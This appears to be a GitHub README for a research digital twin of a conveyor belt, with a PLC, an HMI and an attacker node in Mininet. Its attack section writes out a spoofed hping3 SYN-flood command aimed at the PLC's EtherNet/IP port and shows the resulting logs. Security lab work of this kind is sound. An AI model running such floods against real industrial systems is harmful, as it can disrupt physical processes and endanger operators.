


# DigitalTwin-ConveyorBelt: Simulation

This **DigitalTwin-ConveyorBelt** prototype simulates a conveyor belt, consisting of one PLC, a HMI and
an attacker (that has maliciously entered the network) that are connected by a switch. 
In this scenario, the attacker carries out a SYN-flood denial-of-service (DOS) attack. 
The conveyor belt runs as follows:



The conveyor belt is driven by a motor, which possesses a certain temperature.
The PLC controls the physical process of the conveyor belt as follows:
First, the sensor measuring the temperature ("*SENSOR-TEMPERATURE*") is checked. Initially, it should be at 15 degree celsius.  
If the thresholds of the motor temperature (min: 8.0, max: 100.0) hold true, the motor can be started.
The actuator ("*MOTOR*") contains values from 0, whereby 0 indicates that the motor is turned off.
If the value is >0, the motor is on with the given velocity. 
Thereby, the motor velocity can be 50 at maximum, otherwise the PLC will turn the motor off.
Through the HMI, the values of the temperature can be requested from the PLC. Also, the operator can command a certain velocity via the HMI, which will be sent to the PLC.


## Installation
To install the **DigitalTwin** simulation of the conveyor belt please follow the instructions given below in the *exact order*.
You can use a VM that runs on Linux Ubuntu (e.g. VirtualBox with Ubuntu 18.04). 
When running on a VM, use SSH and X11-forwarding for window display (e.g. PuTTy in combination with XMing).

### Install mininet
To install [Mininet](http://mininet.org) execute the following commands:
```bash
git clone git://github.com/mininet/mininet
cd mininet
mininet/util/install.sh -a
```
Afterwards, test whether the installation was successful:
```bash
sudo mn --test pingall
```
If successful, run the following commands to exit the Mininet-CLI and cleanup the simulation:
```bash
mininet> exit
mn -c
```
Additional help is given at the [Mininet installation website](http://mininet.org/download/).

### Install MiniCPS
To install [MiniCPS](https://github.com/scy-phy/minicps) either use
```bash
pip install minicps
```
or clone the [MiniCPS-GitHub project](https://github.com/scy-phy/minicps).

### Install Wireshark & Co.
If you wish to capture the network traffic, install [Wireshark](https://www.wireshark.org/):
```bash
sudo apt-get install wireshark
```

### Initiate the DigitalTwin
Execute the following commands in the folder of this project.
To initiate state and topology of the conveyor belt simulation run the following commands.
To create the SQLLite-Table that simulates the physical states (*SENSOR-TEMPERATURE*, *MOTOR*):
```bash
python init.py
```
To create the topology and ping all nodes:
```bash
sudo python run.py
```
The last command should produce the following output:
```bash
*** Ping: testing ping reachability
attacker -> hmi plc
hmi -> attacker plc
plc -> attacker hmi
*** Results: 0% dropped (6/6 received)
mininet>
```
### Start the simulation of the physical process
To start the scripts that simulate physical behavior and the machines logic 
open the following nodes in a new terminal window by the following command:
```bash
mininet> xterm plc hmi switch
```
This command will produce an error if SSH and X11-forwarding is not set up correctly.
Execute the following scripts in the *respective nodes* and strictly in the following order 
(alternatively uncomment the lines in the *run.py* before executing *run.py*):
```bash
on node switch: python physical_process.py 
on node plc: python plc.py
```
By running these commands the physical process and control logic is started which should produce output
in the respective terminal windows of the nodes. 

Moreover, the *logs*-folder should now be filled with the following log files containing current system logs:
- plc.log
- hmi.log

### Attack the physical process
By opening a window on the *attacker* node the SYN-flood DOS attack can be started. Thereby, the attacker hides his/her own IP and 
disguises with the IP from the HMI (10.0.0.2), and aims at the PLC (10.0.0.1):
```bash
mininet> xterm attacker

on node attacker: hping3 -S -a 10.0.0.2 --flood -V -p 44818 10.0.0.1
```                    
Once the attack is started the following output should occur:
```bash
using attacker-eth0, addr: 10.0.0.3, MTU: 1500
HPING 10.0.0.1 (attacker-eth0 10.0.0.1): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
```      
Whenever the attack is to be ended, press *strg+C*, which stops the attack and informs about the packets sent, e.g.:
```bash
12398768 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```    
It is also possible to use Wireshark for sniffing the network traffic. 
Make sure to install Wireshark beforehand and run it on node switch.

### Exit and cleanup
Afterwards run the following commands to exit and cleanup the simulation:
```bash
mininet> exit
mn -c
```

## Usage
### Attack simulation
By installing various tools (e.g. hping3, Ettercap, Wireshark etc.) the attacker node can try a multitude of possible attacks.
The following shows the respective nodes and their output when the *attacker* runs a SYN-flood DOS attack with hping3
targeted at the PLC.

### System logs
The system logs indicate at first that PLC can communicate without problems (see extract of *plc.log* in folder *logs/DOS*): 
```bash  
INFO 11/28/2020 12:36:40 10.0.0.1 main_loop Set motor to velocity: 40.000000.
INFO 11/28/2020 12:36:41 10.0.0.1 main_loop Set motor to velocity: 40.000000.
INFO 11/28/2020 12:36:42 10.0.0.1 main_loop Received new velocity from HMI (10.0.0.2) in own (10.0.0.1) internal enip tag.
INFO 11/28/2020 12:36:43 10.0.0.1 main_loop Set motor to velocity: 14.000000.
```
The logs further show the input given from the HMI (see extract of *hmi.log* in folder *logs/DOS*):
```bash
INFO 11/28/2020 12:36:41 10.0.0.2 main_loop Sent new velocity to PLC (10.0.0.1): 14.000000.
INFO 11/28/2020 12:37:15 10.0.0.2 main_loop Sent new velocity to PLC (10.0.0.1): 23.000000.
```               
After the attack is initiated, the following logs show that *PLC* is no longer able to receive the new velocity from the *HMI*, as it still keeps the velocity
from before (see extract of *plc.log* in folder *logs/DOS*):
```bash
INFO 11/28/2020 12:37:11 10.0.0.1 main_loop Set motor to velocity: 14.000000.
INFO 11/28/2020 12:37:16 10.0.0.1 main_loop Set motor to velocity: 14.000000.
INFO 11/28/2020 12:37:19 10.0.0.1 main_loop Set motor to velocity: 14.000000.
INFO 11/28/2020 12:37:22 10.0.0.1 main_loop Set motor to velocity: 14.000000.
```
### Network traffic
While the logs indicate that the communication between the PLC and HMI is disturbed, the network traffic captured via Wireshark (filter: TCP) reveals the SYN-flooding attack:



## Research and Citation
Please consider citing this GitHub repository if you are using our **DigitalTwin-ConveyorBelt** simulation.